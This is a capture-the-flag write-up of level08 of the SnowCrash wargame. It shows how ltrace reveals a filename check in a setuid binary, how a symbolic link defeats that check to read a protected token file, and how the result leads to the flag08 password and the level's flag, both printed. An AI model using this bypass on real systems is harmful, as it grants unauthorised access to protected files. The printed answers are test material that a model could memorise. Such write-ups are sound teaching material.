 ## level08

have 2 files in home. an exec and a token file.

when I run the exec it outputs:
> ./level08 [file to read]

so I try 
> ./level08 token
outputs:
>You may not access 'token'

I check the rights with ls -la and see token has rights only for user flag08. 

I run an ltrace on the exec and see the following:

	level08@SnowCrash:~$ ltrace ./level08
	__libc_start_main(0x8048554, 1, 0xbffff7a4, 0x80486b0, 0x8048720 <unfinished ...>
	printf("%s [file to read]\n", "./level08"./level08 [file to read]
	)                    = 25
	exit(1 <unfinished ...>
	+++ exited (status 1) +++

It's output is what I expected from running the exec not much else. I then try ltrace with the token as argument:

	level08@SnowCrash:~$ ltrace ./level08 token
	__libc_start_main(0x8048554, 2, 0xbffff7a4, 0x80486b0, 0x8048720 <unfinished ...>
	strstr("token", "token")                                      = "token"
	printf("You may not access '%s'\n", "token"You may not access 'token'
	)                  = 27
	exit(1 <unfinished ...>
	+++ exited (status 1) +++

So it's checking if the argument contains the string "token" and if it does it prints "You may not access 'token'".
Since I don't have rights to `token` I can't copy or modify so I make a symbolic link

	level08@SnowCrash:~$ ln -s token tok
	level08@SnowCrash:~$ ls
	level08  tok  token
	level08@SnowCrash:~$ ./level08 tok
	quif5eloekouj29ke0vouxean
	level08@SnowCrash:~$ su flag08
	Password:
	Don't forget to launch getflag !
	flag08@SnowCrash:~$ getflag
	Check flag.Here is your token : `25749xKZ8L7DkSCwJkT9dyv6f`
